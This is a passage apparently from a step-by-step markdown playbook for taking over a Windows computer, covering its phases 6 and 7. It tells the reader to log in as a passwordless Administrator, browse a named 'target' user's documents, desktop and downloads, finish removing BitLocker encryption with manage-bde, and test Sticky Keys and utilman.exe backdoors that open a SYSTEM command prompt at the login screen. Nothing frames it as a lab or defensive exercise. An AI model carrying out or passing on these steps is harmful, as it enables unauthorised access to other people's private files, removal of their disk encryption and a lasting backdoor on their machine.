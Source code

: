 
## 🎯 **PHASE 6: COMPLETE SYSTEM ACCESS**

### **Step 6.1: Verify Full Administrator Access**
```
After successful restart:
1. Login as Administrator (no password)
2. Verify normal Windows mode (not safe mode)
3. Open PowerShell as Administrator
4. Confirm full system privileges
```

### **Step 6.2: Access Target User Data**
```powershell
# Navigate to target user profile
cd C:\Users\[TARGET_USERNAME]
# Replace [TARGET_USERNAME] with actual username found on system

# List user directories
dir

# Access user documents, desktop, etc.
cd Documents
cd Desktop
cd Downloads
```

### **Step 6.3: Complete BitLocker Removal**
```powershell
# Check current BitLocker status
manage-bde -status C:

# If decryption in progress, monitor progress
manage-bde -status C:
# Will show percentage complete

# Once decryption complete, BitLocker permanently removed
```

---

## 🛡️ **PHASE 7: PERSISTENCE & VERIFICATION**

### **Step 7.1: Test Sticky Keys Backdoor**
```
1. Logout of Administrator account
2. At Windows login screen, press Shift key 5 times rapidly
3. Command prompt should appear with SYSTEM privileges
4. Alternative: Press Windows+U for utilman.exe backdoor
```
